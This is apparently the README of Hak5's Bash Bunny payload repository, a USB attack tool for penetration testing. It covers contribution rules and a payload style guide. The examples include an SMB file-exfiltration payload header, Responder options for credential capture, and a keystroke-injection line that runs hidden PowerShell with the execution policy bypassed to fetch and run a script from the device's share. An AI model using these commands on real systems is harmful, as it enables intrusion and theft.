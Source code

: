# Payload Library for the Bash Bunny by Hak5

This repository contains payloads and extensions for the Hak5 Bash Bunny. Community developed payloads are listed and developers are encouraged to create pull requests to make changes to or submit new payloads.

## About the Bash Bunny

By emulating combinations of trusted USB devices — like gigabit Ethernet, serial, flash storage and keyboards — the Bash Bunny tricks computers into divulging data, exfiltrating documents, installing backdoors and many more exploits.
-   [Purchase at Hak5](https://hak5.org/products/bash-bunny "Purchase at Hak5")
-   [Documentation](https://docs.hak5.org/bash-bunny/ "Documentation")
-   [Bash Bunny Forums](https://forums.hak5.org/forum/92-bash-bunny/ "Forums")
-   Discord:  [https://hak5.org/discord](https://hak5.org/discord)

![enter image description here](https://cdn.shopify.com/s/files/1/0068/2142/products/bash-bunny-mk2_001_c58d9658-b151-4328-af26-11eef3c47355_300x.jpg)

## Documentation
Documentation on developing payloads for the Bash Bunny can be found on the [docs.hak5.org](https://docs.hak5.org/bash-bunny/) website. Guides can be found on the [Bash Bunny blog](https://hak5.org/blogs/bash-bunny).

## Disclaimer
Generally, payloads may execute commands on your device. As such, it is possible for a payload to damage your device. Payloads from this repository are provided AS-IS without warranty. While Hak5 makes a best effort to review payloads, there are no guarantees as to their effectiveness. As with any script, you are advised to proceed with caution.

## Legal
Payloads from this repository are provided for educational purposes only.  Hak5 gear is intended for authorized auditing and security analysis purposes only where permitted subject to local and international laws where applicable. Users are solely responsible for compliance with all laws of their locality. Hak5 LLC and affiliates claim no responsibility for unauthorized or unlawful use.

## Contributing
Once you have developed your payload, you are encouraged to contribute to this repository by submitting a Pull Request. Reviewed and Approved pull requests will add your payload to this repository, where they may be publically available.

Please adhere to the following best practices and style guide when submitting a payload.

### Naming Conventions
Please give your payload a unique and descriptive name. Do not use spaces in payload names. Each payload should be submit into its own directory, with `-` or `_` used in place of spaces, to one of the categories such as exfiltration, phishing, remote_access or recon. Do not create your own category.

### Binaries
Binaries may not be accepted in this repository. If a binary is used in conjunction with the payload, please document where it or its source may be obtained.

### Comments
Payloads should begin with comments specifying at the very least the name of the payload and author. Additional information such as a brief description, the target, any dependencies / prerequisites and the LED status used is helpful.

    Title: SMB Exfiltrator
    Description: Exfiltrates files from %userprofile%\documents via SMB
    Author: Hak5Darren
    Target: Windows XP SP3 - Latest
    Dependencies: impacket
   
### Configuration Options
Configurable options should be specified in variables at the top of the payload.txt file

    # Options
    RESPONDER_OPTIONS="-w -r -d -P"
    LOOTDIR=/root/udisk/loot/quickcreds

### LED
The payload should use common payload states rather than unique color/pattern combinations when possible with an LED command preceding the Stage or ATTACKMODE.

    # Initialization
    LED SETUP
    GET SWITCH_POSITION
    GET HOST_IP
    
    # Attack
    LED ATTACK
    ATTACKMODE HID ECM_ETHERNET

### Stages and States
Stages should be documented with comments

    # Keystroke Injection Stage
    # Runs hidden powershell which executes \\172.16.64.1\s\s.ps1 when available
    GET HOST_IP
    LED STAGE1
    ATTACKMODE HID
    RUN WIN "powershell -WindowStyle Hidden -Exec Bypass \"while (\$true) { If (Test-Connection $HOST_IP -count 1) { \\\\$HOST_IP\\s\\s.ps1; exit } }\""

Common payload states include a `SETUP`, with may include a `FAIL` if certain conditions are not met. This is typically followed by either a single `ATTACK` or multiple `STAGEs`. More complex payloads may include a `SPECIAL` function to wait until certain conditions are met. Payloads commonly end with a `CLEANUP` phase, such as moving and deleting files or stopping services. A payload may `FINISH` when the objective is complete and the device is safe to eject or turn off. These common payload states correspond to `LED` states.


